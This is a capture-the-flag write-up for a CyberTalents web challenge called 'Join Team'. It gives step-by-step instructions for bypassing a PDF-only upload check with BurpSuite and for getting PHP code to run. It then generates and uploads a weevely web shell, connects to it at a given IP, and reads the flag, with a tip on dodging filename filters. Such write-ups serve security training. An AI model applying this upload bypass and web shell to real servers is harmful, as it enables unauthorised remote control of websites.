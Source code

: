 # CyberTalents
 Cybertalents challenges write-ups
 Web-Security: 
 
 Challenge name: Join Team
      First we check "Inspect Elements" nothing suspicious everything looks normal on home page
        Then Check the Home button , About button and our great button but nothing unusual 
        But in the WorkForUs they ask us to submit the CV .
        Lets fireup BurpSuite to intercept the traffic before sending anything and connecting our proxy to the web.
        First i tried sending a .txt file but we ended up with "Only PDF Document Allowed", Which means there is a secuirty measures on the type of file uploaded.
        So i create a .php file and wrote in it:
        <?php
        echo 'test'
        ?>
        Using the BurpSuite we were able to manipulate the file type, So i changed the filename from .pdf to .php and in the content-type to "application/pdf" and forwarded it
        In BurpSuite in the proxy section go to HTTP history and press on the last request we forwarded it we can see in the Response part we can see that there is a location code data/filename.pdf>
        By changing the URL from 18.192.3.151/join-team/index.php?jobs to 18.192.3.151/join-team/index.php?data/filename.pdf we get a string "test" wich means we are able to execute PHP code through the pdf file sent.
        Lets create a Backdoor to be able to get a connection between the web server side and our side.
        Here i suggest using weevely to use a written php backdoor by writing  in the terminal "weevely generate pass /home/kali/Desktop/backdoor.php" to generate a backdoor file. PS:I don't recommend using backoor as a name, maybe there is policies that stops suspicious words.
        Now go back to the browser and upload backdoor.php to the browser and in burpsuite manipulate the request by changing the filename from backdoor.pdf to backdoor.php and in the content-type to "application/pdf" and forwarded it.
        You should get a "Your cv has been uploaded succesfully in backdoor.pdf"
        In the URL delete the word"jobs" and add data/backdoor.pdf in this way we activate our backdoor. Now go back to the terminal and  type"weevely  http"://18.192.3.151/join-team/index.php?data/backdoor.pdf pass"
        type ls you should get response if you got communication error re-generate another backdoor file and re-upload it to the web and re-type what you did before in the terminal, Dont forget to change the name of the file.
        type cat index.php, The flag is located on the second line of this file (Submit the flag without the ')
